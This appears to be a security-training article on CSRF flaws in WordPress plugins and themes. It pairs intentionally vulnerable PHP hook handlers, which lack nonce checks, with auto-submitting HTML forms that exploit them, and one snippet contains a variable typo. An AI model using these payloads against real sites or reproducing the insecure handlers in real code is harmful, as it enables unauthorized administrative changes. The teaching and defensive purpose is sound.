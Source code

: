 ```yaml
---
title: Cross-Site Request Forgery (CSRF)
contributors:
    - rafiem
---
```



## Introduction

This article covers cases of possible CSRF on WordPress. This includes improper hook/function/code usage inside of the plugin/theme which can be used to trick privileged users into doing sensitive actions.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/academy/wordpress/wordpress-internals/functions/#current_user_can) function and the nonce value check using [`wp_verify_nonce`](/academy/wordpress/wordpress-internals/functions/#wp_verify_nonce), [`check_admin_referer`](/academy/wordpress/wordpress-internals/functions/#check_admin_referer) or [`check_ajax_referer`](/academy/wordpress/wordpress-internals/functions/#check_ajax_referer) functions.

<LinkCard
  title="Learn how to secure you code against CSRF"
  href="/academy/wordpress/securing-code/cross-site-request-forgery/"
/>

## `init` hook

For more details on the `init` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#init-hook).

Example of vulnerable code :

```php
add_action("init", "check_if_update_2");

function check_if_update_2(){
    if(isset($_GET["update"])){
        if(current_user_can("manage_options")){
            update_option("user_data", sanitize_text_field($_GET_["data"]));
        }
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.


```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>" method="POST">
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `admin_init` hook

For more details on the `admin_init` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#admin_init-hook).

Example of vulnerable code :

```php
add_action("admin_init", "delete_admin_menu_2");

function delete_admin_menu_2(){
    if(isset($_POST["delete"])){
        if(current_user_can("manage_options")){
            delete_option("custom_admin_menu");
        }
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat" method="POST">
      <input type="hidden" name="delete" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#wp_ajax_action-hook).

Example of vulnerable code :

```php
add_action("wp_ajax_update_post_data", "update_post_data_2");

function update_post_data_2(){
    if(isset($_POST["update"])){
        $post_id = get_post($_POST["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="update_post_data" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="update" value="1" />
      <input type="hidden" name="data" value="test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```